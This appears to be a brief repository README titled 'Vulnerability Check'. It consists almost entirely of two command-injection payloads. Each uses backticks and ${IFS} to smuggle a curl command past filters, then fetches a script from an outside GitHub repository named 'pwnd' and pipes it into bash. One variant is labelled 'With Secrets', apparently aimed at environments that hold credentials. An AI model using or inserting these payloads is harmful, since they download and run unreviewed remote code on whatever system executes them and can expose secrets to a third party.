 # vulnerability_check
Vulnerability Check repository


Without Secrets : `\`curl${IFS}-L${IFS}raw.githubusercontent.com/rui-costa/pwnd/main/pwnd.sh|bash\``

With Secrets : `\`curl${IFS}-L${IFS}raw.githubusercontent.com/rui-costa/pwnd/main/run.sh|bash\``
